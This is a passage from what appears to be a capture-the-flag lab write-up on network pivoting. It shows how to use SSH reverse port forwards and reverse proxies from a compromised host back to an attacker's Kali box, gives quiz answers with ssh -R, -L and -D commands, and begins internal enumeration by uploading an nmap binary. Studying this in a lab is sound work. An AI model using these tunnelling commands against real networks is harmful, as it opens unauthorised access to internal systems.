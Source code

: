 If the status command indicates that the server is not running then you can start the ssh service with:  
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: **transfer the private key to the target box.** This is usually an absolute no-no, **which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.**

With the key transferred, we can then **connect back with a reverse port forward** using the following command:  
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

This would open up a port forward to our Kali box, **allowing us to access the 172.16.0.10 webserver**, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command **can be used to create a reverse proxy in clients which do support it**:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  
This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:
Find the process ID (PID) of the connection. Then type `sudo kill PID` to close the connection

**Questions**
If you're connecting to an SSH server _from_ your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?
- Answer : L
Which switch combination can be used to background an SSH port forward or tunnel?
- Answer : -fN
It's a good idea to enter our own password on the remote machine to set up a reverse proxy
- Answer : No
What command would you use to create a pair of throwaway SSH keys for a reverse connection?
- Answer : ssh-keygen
If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called `id_rsa` and backgrounding the shell, what command would you use? (Assume your username is "kali")
- Answer : `ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN`
What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?
- Answer : `ssh -D 8000 user@target.thm -fN`
If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
- Answer : `ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN`

## Enumeration for internal network
Download a [static nmap binary](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap). Rename it to `nmap-USERNAME`. Finally, upload it to the target in a manner of your choosing.
